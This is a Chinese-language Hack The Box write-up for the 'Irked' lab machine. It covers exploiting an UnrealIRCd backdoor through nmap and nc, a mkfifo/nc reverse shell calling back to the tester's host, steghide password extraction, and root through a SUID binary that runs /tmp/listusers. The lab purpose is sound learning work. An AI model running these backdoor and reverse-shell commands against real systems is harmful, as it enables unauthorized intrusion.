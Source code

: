 ```yaml
---
title: Irked Writeup
date: 2020-11-30 22:23:47
category: Hack The Box
---
```


# Irked Writeup

![](./0.png)

## 0x00 TODO

跑一下 LinEnum.sh 看下能不能跑出 `/home/djmardov/.backup` 文件。

## 0x01 信息收集

![](./1.png)


## 0x02 枚举
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse 10.10.10.117
```
扫到 unrealircd 后门。
![](./5.png)
> 实际上这里要开启后门只要 nc 命令过去就可以了。**需要登陆吗，待确认**
> ``` bash
> echo "AB; ping -c 4 10.10.14.21;"|nc 10.10.10.117 6697
> ```

## 0x03 立足点
unrealircd 后门利用，执行反弹 shell 命令拿到普通用户 `ircd`权限。
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4444 >/tmp/f &' 10.10.10.117
```
![](./6.png)
`ircd` 并没有 user flag，找到 `djmardov` 用户 `./documents`，无权限打开 `user.txt`，看了 `sudo -l` 没有可以切换的姿势，在 documents 下 `ls -la` 发现隐藏文件 `.backup`，cat 一下是一个 `xxx step backup pw`，像是某个密码，用来 `ssh djmardov@10.10.10.117` 不对，于是 google 一下发现跟 `stephide` 这个工具有关。

`stephide` 是用于将**文件隐藏在图片、音频**的工具。
``` bash
stephide extract -sf irked.jpg -p password  # 提取文件
steghide embed -ef secret.txt -cf irked.jpg # 隐藏文件，自己要验一下
# 会被提示输入口令
Enter passphrase:Re-Enter passphrase:embedding "secret.txt" in "irked.jpg"... done
```
提取出来看到 pass.txt，`ssh djmardov@10.10.10.117` 登录成功，拿到 `user.txt`。

## 0x04 提权
### 1、Apache JSP webshell 
查看 html 目录是否可写，因为这里 apache 是 root 启动，有 webshell 就有 root，但是 /var/www/html 目录不可写。

### 2、SUID 
#### 2.1、exim4
exim4 - 4.84-2 看有提权漏洞，实则兔子洞，很坑。

![](./7.png)
#### 2.2、listusers
另辟蹊径，轻松提权。

![](./10.png)
> 因为这里有提示 `listusers not found`，才会让人注意到这里执行了一个文件 `/tmp/listusers`。
> 假如这个文件存在呢，没有提示，那要怎么知道执行了哪个文件？
> 
> 正确操作应该是把 viewuser 转 b64 提到本地做分析。
> ``` bash
> # 靶机二进制文件转 b64
> base64 -w /usr/bin/viewuser > b.64
> # 下载到本地解码 b64
> base64 -d b.64 > viewuser
> chmod +x viewuser
> strace ./viewuser # 看里面的执行逻辑 - 姿势1 易于阅读
> ltrace ./viewuser # 看里面的执行逻辑 - 姿势2
> ```
> 可以看到执行了具体哪个文件 `system("/tmp/listusers")`，最后做修改替换执行 `/bin/bash`。
> (图)

## 0x05 攻击节点
信息收集 -> nmap 漏洞扫描 -> 6697.unrealircd(ircd) -> viewuser 服务执行文件(root)

## 0x02 学到什么
#### 1、善用 `nmap --script vuln`。
#### 2、警惕兔子洞，走不通要果断放弃，另辟蹊径。